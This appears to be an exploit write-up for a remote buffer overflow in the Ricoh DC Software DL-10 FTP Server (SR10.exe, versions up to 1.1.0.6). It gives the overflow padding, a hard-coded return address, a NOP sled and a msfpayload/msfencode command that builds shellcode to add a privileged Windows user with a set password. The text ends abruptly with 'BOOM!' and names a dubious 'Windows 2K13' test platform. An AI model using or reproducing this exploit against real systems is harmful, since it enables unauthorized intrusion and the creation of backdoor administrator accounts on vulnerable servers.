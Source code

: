 Ricoh-DC-Software-DL-10-FTP-Server-SR10.exe-
============================================
# Exploit Title: Ricoh DC Software DL-10 FTP Server (SR10.exe) <= 1.1.0.6 Remote Buffer Overflow Vulnerability
# Version:       <= 1.1.0.6
# Date:          December 2014
# Author:        jasonsslim
# Homepage:      www.jasonsslim.info
# Tested on:     Windows 2K13

Ricoh DC Software DL-10 FTP Server (SR10.exe) &lt;= 1.1.0.6 - Remote Buffer Overflow Vulnerability

Search for JMP ESP from ntdll.dll and edit the shellcode as below:

junk = "\x41" * 245
eip = "\x77\xFB\x8B\xAB"
nops = "\x90" * 10

Create privileged user shellcode with the following:
msfpayload windows/adduser USER=h4xor PASS=H4xor@1234 R | msfencode -e x86/shikata_ga_nai -b '\x00\x0a\x0d'

and...


BOOM!
